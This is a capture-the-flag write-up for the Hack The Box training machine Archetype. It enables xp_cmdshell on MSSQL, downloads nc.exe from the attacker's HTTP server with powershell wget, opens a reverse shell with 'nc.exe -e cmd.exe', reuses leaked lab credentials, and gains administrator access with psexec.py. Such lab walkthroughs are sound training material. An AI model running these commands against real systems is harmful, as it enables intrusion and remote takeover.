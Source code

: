 ```yaml
---
title: "Archetype"
description: A writeup on the machine Archetype form hackthebox starting point Tier2 level 
date: 2024-09-23
draft: false # this section allows the post to be published and be public, is it is set to true the post will not be published.
summary: "Archetype Stuff" # Here you can write a small summary of the post if needed
tags: [HTB, Very Easy ]
categories: [Tier2, Starting point]
---
```

# Introduction

![Untitled.jpg](Untitled.jpg)

## Task 1

Which TCP port is hosting a database server?

![image.png](image.png)

1433

## Task 2

What is the name of the non-Administrative share available over SMB?

![image.png](image%201.png)

backups

## Task 3

What is the password identified in the file on the SMB share?

![image.png](image%202.png)

M3g4c0rp123

## Task 4

What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

![image.png](image%203.png)

[mssqlclient.py](http://mssqlclient.py/) 

## Task 5

What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

![image.png](image%204.png)

xp_cmdshell

after we log in through impacket, we are required to stabilize our shell using the command above as shown below.

![image.png](image%205.png)

Let us try to gain RCE on this box. Follow these commands in order.

Follow these steps :

```
EXECUTE sp_configure 'show advanced options',1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

Now try running :

```
xp_cmdshell "whoami"
```

Now it’s working and this command will return us “archetype/sql_svc”.

**(Stable shell):**

Our shell is working but we won’t be executing our commands like this again
 so we will get a stable shell. Now let’s search and find something.

After some searching we found an article:

[https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/](https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/)

We will follow the last method: ***xp_cmdshell with nc***

- Here first we have to download nc.exe on our local system, which can be downloaded from the link: [https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
- After downloading let’s set up a python server on our machine in order to send the file to the target system.

```
python3 -m http.server// Keep in mind to run the server in the folder yout nc.exe file is present
```

- We will use the following command to get the file on our target system:

```
xp_cmdshell "powershell.exe wget http://[Your_tun0_IP]:8000/nc.exe -OutFile c:\\Users\Public\\nc.exe"/*
we don't need the rest of the command because :
. we already are connected to sql
. we already logged in using correct credentials
*/
```

- If our file is successfully transferred we will get something like this in our server instance

```
root@ip-10-10-204-169:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.102.63 - - [22/Feb/2022 09:12:04] "GET /nc.exe HTTP/1.1" 200 -
```

- The next step is to execute the file in our target system for the reverse
shell. So for that first, let’s set up our Netcat listener on our
system:

```
nc -lvnp 4444
```

- We will execute the following command in our target system

```
xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe [Your_tun0_IP] 4444"
```

So
 we got our stable shell so our next step is to find the flags. So user 
flag is in the Dekstop folder and we can navigate to that folder :

```
cd \
cd Users
cd sql_svc
cd Desktop
type user.txt
```

![image.png](image%206.png)

## Task 6

What script can be used in order to search possible paths to escalate privileges on Windows hosts?

![image.png](image%207.png)

winpeas.exe

## Task 7

What file contains the administrator's password?

![image.png](image%208.png)

ConsoleHost_history.txt

the file above contains the credentials of the admin that we can use to escalate our privileges to root the machine.

```bash
User: administrator
Password: MEGACORP_4dm1n!!
```

Now we need a tool to log in as Administrator on our target PC and we 
cannot do it directly in our Windows Powershell as we do in the Linux 
system. There is a tool from our impacket named **psexec.py** which will help us.

- Kill the PowerShell and mssqlclient on our machine.
- Let’s use our tool:

```
python3 /opt/impacket/examples/psexec.py administrator@[Target_IP]
```

![image.png](image%209.png)

next we shall change directory to the desktop directory of admin to get our root flag.

![image.png](image%2010.png)

and just like that, we have pawned our machine.